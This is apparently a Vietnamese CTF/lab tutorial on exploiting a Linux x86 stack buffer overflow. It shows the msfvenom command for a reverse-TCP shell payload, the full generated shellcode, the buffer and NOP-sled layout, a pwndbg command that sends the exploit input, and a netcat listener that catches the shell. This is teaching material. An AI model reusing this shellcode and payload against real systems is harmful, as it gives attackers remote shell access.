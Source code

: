 # Generating Shellcode
---
Chúng ta đã biết về công cụ **msfvenom** dùng để tạo ra độ dài gần đúng của shellcode. Bây giờ chúng ta có thể sử dụng lại công cụ này để tạo shellcode thực tế, điều này làm cho CPU của hệ thống mục tiêu thực thi lệnh mà chúng ta muốn có.

Nhưng trước khi tạo shellcode, chúng ta phải đảm bảo rằng các thành phần và thuộc tính riêng lẻ phù hợp với hệ thống đích. Vì vậy chúng ta phải chú ý đến các lĩnh vực sau:
- Architecture
- Platform
- Bad Characters

**MSFvenom Syntax**
```
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```
**MSFvenom - Generate Shellcode**

```shell
└─$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

    Running the 'init' command for the database:
    Existing database found, attempting to start it
    Starting database at /home/chidok/.msf4/db...pg_ctl: another server might be running; trying to start server anyway
    server starting
    success
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 95 (iteration=0)
    x86/shikata_ga_nai chosen with final size 95
    Payload size: 95 bytes
    Final size of c file: 425 bytes
    Saved as: shellcode
```

**Shellcode**
```shell
└─$ cat shellcode
unsigned char buf[] =
"\xd9\xc8\xba\xe2\x7a\x2a\xc8\xd9\x74\x24\xf4\x5b\x33\xc9"
"\xb1\x12\x31\x53\x17\x03\x53\x17\x83\x21\x7e\xc8\x3d\x94"
"\xa4\xfb\x5d\x85\x19\x57\xc8\x2b\x17\xb6\xbc\x4d\xea\xb9"
"\x2e\xc8\x44\x86\x9d\x6a\xed\x80\xe4\x02\x91\x72\x17\xd3"
"\x05\x71\x17\xa9\xbc\xfc\xf6\xfd\x59\xaf\xa9\xae\x16\x4c"
"\xc3\xb1\x94\xd3\x81\x59\x49\xfb\x56\xf1\xfd\x2c\xb6\x63"
"\x97\xbb\x2b\x31\x34\x35\x4a\x05\xb1\x88\x0d";
```

Bây giờ chúng ta đã có shellcode, chúng ta điều chỉnh nó để chỉ có một chuỗi, sau đó chúng ta có thể điều chỉnh và gửi lại cách khai thác đơn giản của mình.

## Tính toán buffer
```shell
    Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
    NOPs = "\x90" * 124     
    Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2" # Length = 95
    EIP = "\x66" * 4'
```

## Exploit with Shellcode

```shell
pwndbg> run $(python2 -c 'print("\x55" * 817 + "\x90" * 124 + "\xd9\xc8\xba\xe2\x7a\x2a\xc8\xd9\x74\x24\xf4\x5b\x33\xc9" + "\xb1\x12\x31\x53\x17\x03\x53\x17\x83\x21\x7e\xc8\x3d\x94" + "\xa4\xfb\x5d\x85\x19\x57\xc8\x2b\x17\xb6\xbc\x4d\xea\xb9" + "\x2e\xc8\x44\x86\x9d\x6a\xed\x80\xe4\x02\x91\x72\x17\xd3" + "\x05\x71\x17\xa9\xbc\xfc\xf6\xfd\x59\xaf\xa9\xae\x16\x4c" + "\xc3\xb1\x94\xd3\x81\x59\x49\xfb\x56\xf1\xfd\x2c\xb6\x63" + "\x97\xbb\x2b\x31\x34\x35\x4a\x05\xb1\x88\x0d" + "\x66" * 4)')
Starting program: /mnt/d/Code/All-CTF/BufferOverflow/Linux_x86/Exploxit/Attack/bow32 $(python2 -c 'print("\x55" * 817 + "\x90" * 124 + "\xd9\xc8\xba\xe2\x7a\x2a\xc8\xd9\x74\x24\xf4\x5b\x33\xc9" + "\xb1\x12\x31\x53\x17\x03\x53\x17\x83\x21\x7e\xc8\x3d\x94" + "\xa4\xfb\x5d\x85\x19\x57\xc8\x2b\x17\xb6\xbc\x4d\xea\xb9" + "\x2e\xc8\x44\x86\x9d\x6a\xed\x80\xe4\x02\x91\x72\x17\xd3" + "\x05\x71\x17\xa9\xbc\xfc\xf6\xfd\x59\xaf\xa9\xae\x16\x4c" + "\xc3\xb1\x94\xd3\x81\x59\x49\xfb\x56\xf1\xfd\x2c\xb6\x63" + "\x97\xbb\x2b\x31\x34\x35\x4a\x05\xb1\x88\x0d" + "\x66" * 4)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x5655619d in bowfunc ()
```

Netcat - Reverse Shell Listener
Connecting to Reverse Shell to attack
```shell
$ nc -nlvp 31337
```
And run the payload
```shell
./leave_msg $(payload)
```

## Stack

```shell
pwndbg> x/2000xb $esp+550

0xffffd132:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd13a:     0x90    0x90    0xd9    0xc8    0xba    0xe2    0x7a    0x2a
                                |---> ShellCode Start
0xffffd142:     0xc8    0xd9    0x74    0x24    0xf4    0x5b    0x33    0xc9
0xffffd14a:     0xb1    0x12    0x31    0x53    0x17    0x03    0x53    0x17
```

**FUNC show size of stack: gdb info proc all**

